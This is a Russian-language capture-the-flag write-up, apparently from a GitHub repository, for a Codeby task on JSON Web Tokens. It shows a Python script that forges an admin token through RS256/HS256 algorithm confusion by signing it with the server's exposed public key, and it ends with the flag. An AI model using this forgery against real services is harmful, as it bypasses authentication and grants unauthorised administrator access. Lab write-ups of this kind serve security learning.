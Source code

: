 # Момент с JWT writeup
При переходе по ссылке нас встречает некий скрипт, очень похожий на предыдущее задание.

![image](https://user-images.githubusercontent.com/115101419/236475976-399203df-68cf-4556-a7fa-eac08f9e96b7.png)

Такая же директория /gen-jwt, /check-jwt
Но ко всему прочему добавилась директория /get-pub
При переходе по ней мы видим публичный RSA key

![image](https://user-images.githubusercontent.com/115101419/236477058-259ed443-aa60-4a3f-82e0-1f054cb4fdad.png)

Заметим, что в ключе присутствую символы переноса строки \n. 
Запишем ключ в блокнот в правильном виде (заменяя \n на перенос строки соответственно)

![image](https://user-images.githubusercontent.com/115101419/236477627-a4b6c8df-bd7b-40e5-8096-1c87051040f5.png)

Ко всему прочему заметим, что в функции проверки токена алгоритм шифрования может быть как RS256
так и HS256. Также у нас есть хинт
![image](https://user-images.githubusercontent.com/115101419/236483479-c4c180e6-2d36-4b49-9fc8-f85909a9f3a1.png)

Немного погуглив понимаем, что тут можно сделать подделку подписи

![image](https://user-images.githubusercontent.com/115101419/236484417-44c77239-23e9-4b15-8c55-4b7e03ec29e8.png)

Пишем скрипт на питоне. В заголовке меняем алгоритм шифрования на HS256
и поле isAdmin на true. Далее преобразуем их в json вид и кодируем в base64. После вызываем hmac.new() и хэшируем наш пэйлоад с помощью публичного ключа 
и sha256. Потом опять кодируем в base64 и добавляем к jwt токену
```python
import hmac
import json
import base64
import hashlib
with open(r"pubkeyjwt.txt") as file:
    public_key=file.read()

header= {"typ": "JWT", "alg": "HS256"}
payload = {"name": "admin", "isAdmin": True}
json_header=json.dumps(header).encode()
json_payload=json.dumps(payload).encode()
jwt_parts=[]
jwt_parts.append(base64.urlsafe_b64encode(json_header))
jwt_parts.append(base64.urlsafe_b64encode(json_payload))
jwt_payoad=b'.'.join(jwt_parts)
print(jwt_payoad, " <-- пэйлоад без подписи")
signature = hmac.new(public_key.encode(), jwt_payoad, hashlib.sha256).digest()
jwt_parts.append(base64.urlsafe_b64encode(signature))
jwt_payoad=b'.'.join(jwt_parts)
print(jwt_payoad)
```

Результат: 

![image](https://user-images.githubusercontent.com/115101419/236490006-3f52a1b3-24f7-4bef-82e2-0599b9d63ccf.png)

Вставляем токен и надеемся на результат :smiley:

![image](https://user-images.githubusercontent.com/115101419/236490318-1d1282d4-03a1-4bcd-a497-83660aa16ea0.png)

Победа :fire:

**CODEBY{JWT_SUP333R_ULTR444_PR000}**





